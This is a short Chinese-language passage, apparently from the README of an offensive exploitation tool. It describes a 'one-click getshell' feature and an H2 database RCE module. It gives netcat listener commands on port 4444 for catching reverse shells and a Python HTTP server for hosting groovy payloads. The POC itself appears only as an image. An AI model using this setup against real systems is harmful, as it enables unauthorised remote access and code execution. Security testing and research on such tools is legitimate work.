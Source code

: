 一键getshell监听的端口是托管groovy文件的端口，反弹端口默认为4444，开启的方法同上

```bash
nc -lvk 4444 # mac
nc -lvp 4444 # linux
python -m http.server 80
```

**注意！！！**：“HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出”

所以师傅有需要修改代码或者其他用途的时候，修改代码的时候不要改错groovy内容，并且文件内容也不要随意修改，以防万一

![](./image/image-20240915162516029.png)

### #8 H2DatabaseQueryRCE(慎用)

POC

![](./image/image-20241102142732354.png)
